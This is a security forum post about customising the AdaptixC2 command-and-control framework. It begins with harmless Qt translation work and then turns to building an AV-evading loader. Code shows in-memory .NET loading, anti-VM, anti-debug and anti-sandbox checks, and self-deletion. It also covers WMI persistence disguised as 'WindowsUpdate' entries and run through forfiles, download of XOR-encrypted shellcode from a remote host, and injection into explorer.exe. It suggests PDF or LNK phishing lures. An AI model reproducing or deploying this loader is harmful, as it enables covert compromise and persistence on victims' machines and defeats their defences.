# AdaptixC2武器化二开-先知社区

> **来源**: https://xz.aliyun.com/news/19007  
> **文章ID**: 19007

---

## 基于Qt 框架LinguistTools增加多语言支持

**环境**

* Qt Creator IDE
* AdaptixC2 Server端与Agent端（源码自备）

**话说**

想写这个是看到隔壁CobaltStrike都有中文版，AdaptixC2的汉化就看到WX某文章里有发布一个低版本进行编译后的成品，但是这个成品打开居然还显示某公众号名字....所以就自食其力了

**目录结构**

AdaptixClient/  
├── CMakeLists.txt # 项目配置文件（需要修改）  
├── translations/ # 翻译文件目录  
│ ├── adaptix\_zh\_CN.ts # 中文翻译文件  
│ └── adaptix\_en\_US.ts # 英文翻译文件  
├── Headers/ # 头文件  
├── Source/ # 源代码  
└── Resources/ # 资源文件

使用Qt Creator 17.0.1 (Community)打开AdaptixClient项目中的CMakeLists.txt



先修改CMakeLists.txt 添加LinguistTools组件

```
find_package(Qt6
        REQUIRED COMPONENTS
        Core
        Gui
        Widgets
        Network
        WebSockets
        Sql
        Qml
        LinguistTools  # 新增：翻译工具支持
)
```

在末尾加入翻译支持

```
# 国际化多语言支持
set(TS_FILES
    translations/adaptix_zh_CN.ts
)

# 使用Qt6的标准翻译功能 将qm编译进资源中
qt6_add_translations(AdaptixClient
    TS_FILES ${TS_FILES}
    RESOURCE_PREFIX "/translations"
)
```

修改main.cpp添加翻译器支持

```
#include <main.h>
#include <MainAdaptix.h>
#include <QTranslator>     // 新增
#include <QLocale>         // 新增
........
    int main(int argc, char *argv[])
{
    // --- 添加国际化支持 ---
    static QTranslator translator;  // 保证 translator 不会在 main() 结束后被销毁

    // 获取当前系统的语言环境，例如 "zh_CN"
    QString locale = QLocale::system().name();

    // 资源路径
    QString translationFile = QString(":/translations/adaptix_%1.qm").arg(locale);

    if (translator.load(translationFile)) {
        a.installTranslator(&translator);
    }
    // --- 结束 ---

}    
```

使用lupdate命令 生成ts文件

```
PS C:\Users\12410\Desktop\AdaptixClient> lupdate -no-obsolete -locations relative Source/ Headers/ -ts translations/adaptix_zh_CN.ts
Scanning directory 'Source/'...
Scanning directory 'Headers/'...
C:/Users/12410/Desktop/AdaptixClient/Source/UI/Widgets/AxConsoleWidget.cpp:251: Class 'AxConsoleWidget' lacks Q_OBJECT macro
C:/Users/12410/Desktop/AdaptixClient/Source/UI/Widgets/ConsoleWidget.cpp:478: Class 'ConsoleWidget' lacks Q_OBJECT macro
Updating 'translations/adaptix_zh_CN.ts'...
    Found 6 source text(s) (6 new and 0 already existing)
```

问题：某些类不继承Q\_OBJECT，无法用tr()函数

解决方案：让类继承QObject并添加Q\_OBJECT宏

```
class xxxxxxx : public xxxxx
{
Q_OBJECT  // 添加这一行
```

AdaptixClient\Headers\UI\Widgets\AxConsoleWidget.h



AdaptixClient\Headers\UI\Widgets\ConsoleWidget.h



再次使用lupdate命令 生成ts文件 看看有没有报错

```
PS C:\Users\12410\Desktop\AdaptixClient> lupdate -no-obsolete -locations relative Source/ Headers/ -ts translations/adaptix_zh_CN.ts
Scanning directory 'Source/'...
Scanning directory 'Headers/'...
Updating 'translations/adaptix_zh_CN.ts'...
    Found 6 source text(s) (0 new and 6 already existing)
```

这就是基本的汉化过程，先拿这个连接界面练练手



AdaptixClient\Source\UI\Dialogs\DialogConnect.cpp

```
void DialogConnect::createUI()
{
    // 显示的固定文本（菜单项、菜单标题、窗口标题等），都需要用 tr() 函数包裹起来
    this->setWindowTitle(tr("Connect"));
    label_UserInfo->setText( tr("User information") );
    label_User->setText( tr("User:") );
    label_Password->setText( tr("Password:") );
    label_ServerDetails->setText( tr("Server details") );
    label_Project->setText( tr("Project:") );
    label_Host->setText( tr("Host:") );
    label_Port->setText( tr("Port:") );
    label_Endpoint->setText( tr("Endpoint:") );
    ButtonConnect->setText(tr("Connect"));
    menuContex->addAction( tr("Remove"), this, &DialogConnect::itemRemove );
    tableWidget->setHorizontalHeaderItem( 0, new QTableWidgetItem( tr("Username") ) );
    tableWidget->setHorizontalHeaderItem( 1, new QTableWidgetItem( tr("Project") ) );
    tableWidget->setHorizontalHeaderItem( 2, new QTableWidgetItem( tr("Host") ) );
}
```

如果需要在客户端中实现中英文切换，那么就需要写retranslateUi和changeEvent方法

|  |  |  |
| --- | --- | --- |
| **特性** | **场景A: 固定显示** | **场景B: 中/英动态切换** |
| 场景 | 启动显示对应语言文件 | 运行时可任意切换语言。 |
| main()函数 | 必须在创建窗口前 installTranslator。 | 必须在创建窗口前 installTranslator 来设置初始语言。 |
| changeEvent | 不需要。 因为语言从不“变化”。 | 必需。 用于监听运行时的语言变化事件。 |
| retranslateUi | 非必需，但推荐。 (作为一种良好代码结构) | 必需。 用于执行具体的界面文本刷新工作。 |

简单提一下：如果需要实现场景B，那么以DialogConnect.cpp为例就需要下面的方法

```
void DialogConnect::changeEvent(QEvent *event)
{
    //判断当前语言环境是否发生变化
    if (event->type() == QEvent::LanguageChange) {
        //执行界面更新
        retranslateUi();
    }
    //将事件继续传递给基类
    QDialog::changeEvent(event);
}

void DialogConnect::retranslateUi()
{
    // 重新翻译窗口标题和标签
    this->setWindowTitle(tr("Connect"));
    if (label_UserInfo) label_UserInfo->setText(tr("User information"));
    if (label_User) label_User->setText(tr("User:"));
    if (label_Password) label_Password->setText(tr("Password:"));
    if (label_ServerDetails) label_ServerDetails->setText(tr("Server details"));
    if (label_Project) label_Project->setText(tr("Project:"));
    if (label_Host) label_Host->setText(tr("Host:"));
    if (label_Port) label_Port->setText(tr("Port:"));
    if (label_Endpoint) label_Endpoint->setText(tr("Endpoint:"));
    if (ButtonConnect) ButtonConnect->setText(tr("Connect"));

// 重新翻译右键菜单
if (menuContex) {
    menuContex->clear();
    menuContex->addAction(tr("Remove"), this, &DialogConnect::itemRemove);
}

}
```

**后续本文以场景A作为演示**

将固定文本用TR函数改完用lupdate命令 生成ts文件

```
PS C:\Users\12410\Desktop\AdaptixClient> lupdate -no-obsolete -locations relative Source/ Headers/ -ts translations/adaptix_zh_CN.ts
```

使用 Linguist 预言家或单独编辑ts文件，依次翻译对应内容 然后保存





使用 lrelease 命令将ts文件编译成qm文件 或使用Linguist 预言家发布按钮

```
PS C:\Users\12410\Desktop\AdaptixClient> lrelease translations/adaptix_zh_CN.ts -qm translations/adaptix_zh_CN.qm
Updating 'translations/adaptix_zh_CN.qm'...
    Generated 10 translation(s) (10 finished and 0 unfinished)
    Ignored 6 untranslated source text(s)
```



使用Qt Creator 17.0.1 (Community)重新构建程序 使用debug模式先看看效果（中文汉字就是看的清爽）



剩下的事情就是将所有需要翻译的字符串使用tr()包裹（注意Q\_OBJECT） > 用lupdate命令生成ts文件 > Linguist 依次翻译发布 > 重新构建Client



最后展示千行翻译后的效果成品







由于一些控件存在于服务端的ax\_config.axs所以也需要相应处理，我偷懒直接采用硬编码了，这里没做语言切换

```
/// Beacon agent

let exit_thread_action  = menu.create_action("终止线程",  function(value) { value.forEach(v => ax.execute_command(v, "terminate thread")) });
let exit_process_action = menu.create_action("结束进程", function(value) { value.forEach(v => ax.execute_command(v, "terminate process")) });
let exit_menu = menu.create_menu("退出");
exit_menu.addItem(exit_thread_action)
exit_menu.addItem(exit_process_action)
menu.add_session_agent(exit_menu, ["beacon"])

let file_browser_action    = menu.create_action("文件浏览器",    function(value) { value.forEach(v => ax.open_browser_files(v)) });
let process_browser_action = menu.create_action("进程浏览器", function(value) { value.forEach(v => ax.open_browser_process(v)) });
```

之前在main.cpp定义了根据当前系统的语言环境切换语言，所以能实现中/英切换，如果需要更多语言后面加对应的翻译文件就行



注意！如果加载了官方扩展或第三方扩展



这里扩展带来对应的功能/命令是原版英文，没有进行多语言支持，如果有需要可以参考修改**ax\_config.axs**方法进行硬编码翻译



```
ax.script_load(path + "AD-BOF/ad.axs");
ax.script_load(path + "Creds-BOF/creds.axs");
ax.script_load(path + "Elevation-BOF/elevate.axs");
ax.script_load(path + "Execution-BOF/execution.axs");
ax.script_load(path + "Injection-BOF/inject.axs");
ax.script_load(path + "LateralMovement-BOF/lateral.axs");
ax.script_load(path + "Postex-BOF/postex.axs");
ax.script_load(path + "Process-BOF/process.axs");
ax.script_load(path + "SAL-BOF/sal.axs");
ax.script_load(path + "SAR-BOF/sar.axs");
```

**记录问题下编译测试功能时遇到的问题**

* 生成goher客户端时会提示服务器超时



执行手动编译发现go会去从墙地址拉库，这很可能导致生成客户端失败，这里配置proxy或者国内源均可

```
root@aa:~/AdaptixServer/extenders/agent_gopher/src_gopher# CGO_ENABLED=0 GOOS=windows GOARCH=arm64 GOROOT=/usr/lib/go-win7/ /usr/lib/go-win7/go build -trimpath -ldflags="-s -w -H=windowsgui" -o ./agent-fail.exe
go: downloading github.com/vmihailenco/msgpack/v5 v5.4.1
go: downloading golang.org/x/sys v0.33.0
```



```
# 启用 Go Modules 功能
go env -w GO111MODULE=on

# 配置 GOPROXY 环境变量，以下三选一

# 1. 七牛 CDN
go env -w  GOPROXY=https://goproxy.cn,direct

# 2. 阿里云
go env -w GOPROXY=https://mirrors.aliyun.com/goproxy/,direct

# 3. 官方
go env -w  GOPROXY=https://goproxy.io,direct

确认一下：
$ go env | grep GOPROXY
GOPROXY="https://goproxy.cn"
```

* 生成goher客户端时会提示exit 1

大概率是服务器上的go版本有问题，检查go是否缺少组件，手动执行下go version看看报不报错（注意如果需要win7支持请排查/usr/lib/go-win7/go）

**成品就不放了，到github上拉库自己编译吧**

<https://github.com/myisake/AdaptixC2_i18n>

## **基于实战化提高抗AV能力**

这个版本的Beacon，作者没有考虑规避 AV 或 EDR，所以想要实战化达到能用的标准，还需要增强免杀能力

```
This version of the Beacon agent is not designed for AV or EDR evasion and is therefore not OPSEC compliant. Beacon is primarily intended to test and demonstrate the capabilities of AdaptixC2. However, the Beacon agent can be easily extended and modified, making it compatible with various AV evasion methods.

此版本的 Beacon 代理并非为规避 AV 或 EDR 而设计，因此不符合 OPSEC 标准。Beacon 主要用于测试和展示 AdaptixC2 的功能。然而，Beacon 代理可以轻松扩展和修改，使其兼容各种 AV 规避方法。
```



先随便建一个HTTPS的监听器



注意选择生成shellcode的客户端（这个后期好操作），生成后会获得一个agent.x64.bin



根据以往的免杀，思路大致设计下流程和功能，Loader加载器 > 加载恶意DLL > 获取远程shellcode > 寄生宿主如explorer.exe > 持久化驻留



**Loader加载器 关键功能**

* 直接从内存中加载.NET程序集（内存加载）
* 反虚拟机/反调试/抗沙箱（反分析）
* 持久化驻留机制（WMI事件订阅）

**Loader加载器 直接从内存中加载.NET程序集 实现**

```
// 初始化COM
hr = CoInitializeEx(NULL, COINIT_MULTITHREADED);

// 创建CLR元数据主机接口实例
hr = CLRCreateInstance(CLSID_CLRMetaHost, IID_ICLRMetaHost, (LPVOID*)&pMetaHost);

// 遍历并获取一个可用的.NET运行时版本
for (int i = 0; i < 3; i++) {
    hr = pMetaHost->GetRuntime(runtimeVersions[i], IID_ICLRRuntimeInfo, (LPVOID*)&pRuntimeInfo);
    if (SUCCEEDED(hr)) {
        runtimeLoaded = true;
        break;
    }
}

// 获取ICorRuntimeHost接口并启动CLR
hr = pRuntimeInfo->GetInterface(CLSID_CorRuntimeHost, IID_ICorRuntimeHost, (LPVOID*)&pCorRuntimeHost);
hr = pCorRuntimeHost->Start();

// 从资源中查找、加载并锁定内嵌的DLL
hRes = FindResource(hModule, MAKEINTRESOURCE(IDR_RCDATA1), RT_RCDATA);
hResLoad = LoadResource(hModule, hRes);
pResLock = LockResource(hResLoad);
dwSize = SizeofResource(hModule, hRes);

// 将DLL复制到SAFEARRAY中
SAFEARRAYBOUND sab;
sab.lLbound = 0;
sab.cElements = dwSize;
pSafeArray = SafeArrayCreate(VT_UI1, 1, &sab);
// ... memcpy ...

// 从内存加载程序集
hr = pDefaultAppDomain->Load_3(pSafeArray, &pAssembly);

// 通过反射调用目标方法
hr = pAssembly->GetType_2(bstr_t(L"Reflectioncall"), &pType);
hr = pType->GetMethod_2(bstr_t(L"Execute"), (BindingFlags)(BindingFlags_Static | BindingFlags_Public), &pMethodInfo);

// 调用方法
hr = pMethodInfo->Invoke_3(vObj, psaParams, &vRet);

```

**Loader加载器 反虚拟机/反调试/抗沙箱 实现**

```
bool IsRunningInVirtualMachine() {
    bool result = false;

    // 检查常见虚拟机制造商
    char manufacturer[1024] = { 0 };
    HKEY hKey;

    if (RegOpenKeyExA(HKEY_LOCAL_MACHINE, "SYSTEM\CurrentControlSet\Control\SystemInformation", 0, KEY_READ, &hKey) == ERROR_SUCCESS) {
        DWORD size = sizeof(manufacturer);
        RegQueryValueExA(hKey, "SystemManufacturer", NULL, NULL, (LPBYTE)manufacturer, &size);
        RegCloseKey(hKey);

        // 检查是否包含虚拟机制造商名称
        if (strstr(manufacturer, "VMware") ||
            strstr(manufacturer, "QEMU") ||
            strstr(manufacturer, "VirtualBox") ||
            strstr(manufacturer, "Xen")) {
            result = true;
        }
    }

    // 检查常见虚拟机进程
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot != INVALID_HANDLE_VALUE) {
        // 使用PROCESSENTRY32W而不是PROCESSENTRY32
        PROCESSENTRY32W pe32;
        pe32.dwSize = sizeof(PROCESSENTRY32W);

        if (Process32FirstW(hSnapshot, &pe32)) {
            do {
                // 使用宽字符版本的函数和结构体
                if (lstrcmpiW(pe32.szExeFile, L"vmtoolsd.exe") == 0 ||
                    lstrcmpiW(pe32.szExeFile, L"VBoxService.exe") == 0) {
                    result = true;
                    break;
                }
            } while (Process32NextW(hSnapshot, &pe32));
        }
        CloseHandle(hSnapshot);
    }

    return result;
}
///////
    bool IsBeingAnalyzed() {
    // 检查常见调试器
    if (IsDebuggerPresent())
        return true;

    // 检查远程调试器
    BOOL isRemoteDebuggerPresent = FALSE;
    CheckRemoteDebuggerPresent(GetCurrentProcess(), &isRemoteDebuggerPresent);
    if (isRemoteDebuggerPresent)
        return true;

    // 检查PEB中的NtGlobalFlag
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    if (hNtdll) {
        pNtQueryInformationProcess NtQueryInformationProcess =
            (pNtQueryInformationProcess)GetProcAddress(hNtdll, "NtQueryInformationProcess");

        if (NtQueryInformationProcess) {
            PROCESS_BASIC_INFORMATION pbi;
            ULONG returnLength;

            if (NtQueryInformationProcess(
                GetCurrentProcess(),
                ProcessBasicInformation,
                &pbi,
                sizeof(PROCESS_BASIC_INFORMATION),
                &returnLength) == 0) {

                // PEB位于偏移量0x60处
                PPEB pPeb = (PPEB)pbi.PebBaseAddress;
                if (pPeb) {
                    // NtGlobalFlag位于PEB偏移量0x68处
                    DWORD NtGlobalFlag = *(PDWORD)((PBYTE)pPeb + 0x68);
                    if ((NtGlobalFlag & 0x70) != 0) {
                        return true;
                    }
                }
            }
        }
    }

    // 检查执行时间（沙箱通常会加速时间）
    static ULONGLONG startTime = GetTickCount64();
    if ((GetTickCount64() - startTime) < 1000) {
        Sleep(3000); // 如果执行太快，可能是在沙箱中
    }

    return false;
}
```

**Loader加载器 持久化驻留机制 实现**

```
// 创建随机字符exe文件
bool CreateRandomExe() {
    WCHAR szProgramDataPath[MAX_PATH] = { 0 };
    WCHAR szTargetDir[MAX_PATH] = { 0 };
    WCHAR szCurrentPath[MAX_PATH] = { 0 };
    WCHAR szNewPath[MAX_PATH] = { 0 };
    
    // 获取ProgramData路径
    if (FAILED(SHGetFolderPathW(NULL, CSIDL_COMMON_APPDATA, NULL, 0, szProgramDataPath))) {
        return false;
    }
    
    // 构建Microsoft目录路径
    wsprintfW(szTargetDir, L"%s\Microsoft", szProgramDataPath);
    
    // 检查目录是否存在，不存在则创建
    if (GetFileAttributesW(szTargetDir) == INVALID_FILE_ATTRIBUTES) {
        if (!CreateDirectoryW(szTargetDir, NULL)) {
            return false;
        }
    }
    
    // 生成7位随机文件名
    std::wstring randomName = GenerateRandomString(7) + L".exe";
    
    // 获取当前可执行文件路径
    GetModuleFileNameW(NULL, szCurrentPath, MAX_PATH);
    
    // 构建新路径
    wsprintfW(szNewPath, L"%s\%s", szTargetDir, randomName.c_str());
    
    // 复制文件到目标位置
    if (!CopyFileW(szCurrentPath, szNewPath, FALSE)) {
        return false;
    }
    
    // 设置文件为隐藏属性
    SetFileAttributesW(szNewPath, FILE_ATTRIBUTE_HIDDEN);
    
    return true;
}
///
void SelfDelete() {
    WCHAR szPath[MAX_PATH] = { 0 };
    WCHAR szCmd[MAX_PATH * 2] = { 0 };
    STARTUPINFOW si = { sizeof(si) };
    PROCESS_INFORMATION pi;

    // 获取当前模块文件名
    GetModuleFileNameW(NULL, szPath, MAX_PATH);

    // 使用随机延迟，避免被检测
    int delay = 3 + (rand() % 5);
	// 延迟删除自身
    wsprintfW(szCmd, L"cmd.exe /C ping 127.0.0.1 -n %d > nul && del "%s" > nul", delay, szPath);

    si.dwFlags = STARTF_USESHOWWINDOW;
    si.wShowWindow = SW_HIDE;

    // 创建进程时使用宽字符
    if (CreateProcessW(NULL, szCmd, NULL, NULL, FALSE, CREATE_NO_WINDOW, NULL, NULL, &si, &pi)) {
        CloseHandle(pi.hProcess);
        CloseHandle(pi.hThread);
    }
}
///
bool WmiEventPersistence() {
    // ... COM和WMI服务初始化 ...
    // 定义一个WQL查询，监控系统启动后5到6分钟（300-361秒）的特定性能事件
    varQuery.bstrVal = SysAllocString(L"SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime > 300 AND TargetInstance.SystemUpTime < 361");
    pFilterInstance->Put(L"Query", 0, &varQuery, 0);
    pServices->PutInstance(pFilterInstance, WBEM_FLAG_CREATE_OR_UPDATE, NULL, NULL);
    // 定义事件触发后要执行的命令
    command = L"forfiles /p c:\windows /m notepad.exe /c "" + std::wstring(szExePath) + L""";
    varCommandTemplate.bstrVal = SysAllocString(command.c_str());
    pConsumerInstance->Put(L"CommandLineTemplate", 0, &varCommandTemplate, 0);
    pServices->PutInstance(pConsumerInstance, WBEM_FLAG_CREATE_OR_UPDATE, NULL, NULL);
    // 将pFilterInstance和pConsumerInstance链接起来
    varFilter.bstrVal = SysAllocString(L"__EventFilter.Name="WindowsUpdateCheck"");
    pBindingInstance->Put(L"Filter", 0, &varFilter, 0);
    varConsumer.bstrVal = SysAllocString(L"CommandLineEventConsumer.Name="WindowsUpdateService"");
    pBindingInstance->Put(L"Consumer", 0, &varConsumer, 0);
    pServices->PutInstance(pBindingInstance, WBEM_FLAG_CREATE_OR_UPDATE, NULL, NULL);
    // ...
}
```

**DLL 关键功能**

* 加载远程ShellCode（Base64+XOR）
* 进程注入（共享内存区注入）

**DLL 加载远程ShellCode 实现**

```
private static byte[] DownloadAndDecodeShellcode(string url, byte key)
{
    try
    {
        using (WebClient webClient = new WebClient())
        {
            //从URL下载数据
            byte[] data = webClient.DownloadData(url);
            //Base64解码
            byte[] decoded = Convert.FromBase64String(Encoding.ASCII.GetString(data));
            //单字节XOR解密
            for (int i = 0; i < decoded.Length; i++)
            {
                decoded[i] ^= key;
            }

            return decoded;
        }
    }
    catch
    {
        return null;
    }
}
```

**DLL 进程注入 实现**

```
private static bool ExecuteShellcodeUsingSectionMapping(byte[] shellcode)
{
    // 使用NT API创建一个Section对象
    if (NtCreateSection(ref sectionHandle, ..., ref size, PAGE_EXECUTE_READWRITE, ...) != 0U)
        return false;

    // 将Section映射到当前进程的内存空间
    if (NtMapViewOfSection(sectionHandle, GetCurrentProcess(), ref localAddress, ...) != 0U)

    // 将Shellcode复制到本地映射的地址
    Marshal.Copy(shellcode, 0, localAddress, shellcode.Length);
   
    
    // 将同一个Section映射到目标进程(explorer.exe)的内存空间
    if (NtMapViewOfSection(sectionHandle, processHandle, ref remoteAddress, ...) != 0U)
    
    // 在目标进程中创建远程线程，起始地址为远程映射地址
    IntPtr threadHandle = CreateRemoteThread(processHandle, ..., remoteAddress, ...);
    
    // ... 清理和卸载映射 ...
}
```

注意Shellcode（agent.x64.bin）需要进行加密/编码放服务器上或其他能下载的渠道均可，这里提供一个python脚本用来加密Shellcode

```
import base64

def encrypt_file(input_file_path, output_file_path, key):
    try:
        # 1. 以二进制模式读取输入文件
        with open(input_file_path, 'rb') as f:
            file_bytes = f.read()

        # 2. 对每个字节进行XOR加密
        encrypted_bytes = bytearray()
        for byte in file_bytes:
            encrypted_bytes.append(byte ^ key)

        # 3. 对XOR加密后的结果进行Base64编码
        base64_encoded_bytes = base64.b64encode(encrypted_bytes)

        # 4. 将Base64编码后的内容写入输出文件
        with open(output_file_path, 'wb') as f:
            f.write(base64_encoded_bytes)

        print(f"文件 '{input_file_path}' 已成功加密并保存到 '{output_file_path}'")
        return True

    except FileNotFoundError:
        print(f"错误: 输入文件 '{input_file_path}' 未找到。")
        return False
    except Exception as e:
        print(f"发生错误: {e}")
        return False

def decrypt_file(input_file_path, output_file_path, key):
    try:
        # 1. 读取Base64编码的文件
        with open(input_file_path, 'rb') as f:
            base64_encoded_bytes = f.read()

        # 2. Base64解码
        encrypted_bytes = base64.b64decode(base64_encoded_bytes)

        # 3. 对每个字节进行XOR解密
        decrypted_bytes = bytearray()
        for byte in encrypted_bytes:
            decrypted_bytes.append(byte ^ key)

        # 4. 将解密后的二进制内容写入输出文件
        with open(output_file_path, 'wb') as f:
            f.write(decrypted_bytes)

        print(f"文件 '{input_file_path}' 已成功解密并保存到 '{output_file_path}'")
        return True

    except FileNotFoundError:
        print(f"错误: 输入文件 '{input_file_path}' 未找到。")
        return False
    except Exception as e:
        print(f"发生错误: {e}")
        return False

# 定义异或密钥 需要与解密端相同
XOR_KEY = 0x5A

# 定义输入和输出文件路径
input_bin_file = 'agent.x64.bin'
encrypted_file = 'agent.x64.txt'
decrypted_bin_file = 'agent.x64_decrypted.bin'
# 调用加密函数
encrypt_file(input_bin_file, encrypted_file, XOR_KEY)
# 调用解密函数，验证加密是否正确
decrypt_file(encrypted_file, decrypted_bin_file, XOR_KEY)

```

可以考虑PDF伪装和LNK钓鱼之类的，我主要讲一些重点和思路



生成后的**Loader加载器**效果如下，可以考虑打开之后释放个pdf迷惑下



打开后会删除自身并移动至其他目录隐藏起来



WMI事件订阅持久化驻留系统，重启依然生效

```
Get-WmiObject -Namespace root\subscription -Class __EventFilter | Format-Table Name, Query -AutoSize -Wrap

Name                 Query
----                 -----
WindowsUpdateCheck   SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedD
                     ata_PerfOS_System' AND TargetInstance.SystemUpTime > 300 AND TargetInstance.SystemUpTime < 361
```

```
Get-WmiObject -Namespace root\subscription -Class CommandLineEventConsumer | Format-Table Name, CommandLineTemplate -AutoSize -Wrap

Name                 CommandLineTemplate
----                 -------------------
WindowsUpdateService forfiles /p c:\windows /m notepad.exe /c "C:\ProgramData\Microsoft\lz08r4e.exe"
```

这里单独讲下为什么要用**WMI**和**forfiles**来进行持久化构建

**WMI**（Windows Management Instrumentation，Windows管理规范）

* WMI的核心功能之一**事件模型**（监视系统，当某个特定的事件发生时，执行一个预先定义好的操作）
* 不依赖于传统的持久化（如注册表的`Run`键、启动文件夹、计划任务或系统服务）
* WMI事件消费者执行的动作通常继承WMI服务（Winmgmt）的权限，即 `NT AUTHORITY\SYSTEM`
* 使用ActiveScriptEventConsumer减少文件落地痕迹
* 三大核心组件

* `__EventFilter` (事件过滤器) - 决定“何时”触发 (The Trigger) 官方文档 <https://learn.microsoft.com/zh-cn/windows/win32/wmisdk/--eventfilter>
* `__EventConsumer` (事件消费者) - 决定“做什么” (The Action) 官方文档 <https://learn.microsoft.com/zh-cn/windows/win32/wmisdk/--eventconsumer>
* `__FilterToConsumerBinding` (过滤器-消费者绑定) - 将“何时”与“做什么”关联起来 (The Link) 官方文档 <https://learn.microsoft.com/zh-cn/windows/win32/wmisdk/--filtertoconsumerbinding>

**forfiles**（内置于Windows的命令行文件处理工具）

* 核心功能是根据指定的条件（如文件名）在一或多个目录中选择文件，然后对每一个被选中的文件执行命令
* 白加黑利用（forfiles.exe是微软官方签名的/合法的系统程序）
* 迷惑一些基于父子进程关系进行检测的AV

通过**ProcessMonitor**视角观察一下持久化操作，设置下过滤规则

```
第一条：Process Name | is | wmiprvse.exe | Include  (然后点击 Add)
第二条：Operation | is | Process Create | Include (然后点击 Add)
```



重启电脑后等待**SystemUpTime**到指定的时间区段（TargetInstance.SystemUpTime > 300秒 AND TargetInstance.SystemUpTime < 361秒）就会触发执行**Loader**



看下触发的事件可以发现进程树变成了：WmiPrvSE.exe -> forfiles.exe -> NdetykH.exe（刚刚介绍的白加黑利用）

```
forfiles /p c:\windows /m notepad.exe /c "C:\ProgramData\Microsoft\NdetykH.exe"
```





同样的服务端也显示对应Agent上线了



最后试试静态抗AV能力





动态抗AV能力



再补张其他AV \*\*\*的环境使用效果



由于免杀都是有时效性的，以上介绍的技术/环境/代码仅提供交流，具体的实际效果无法保证
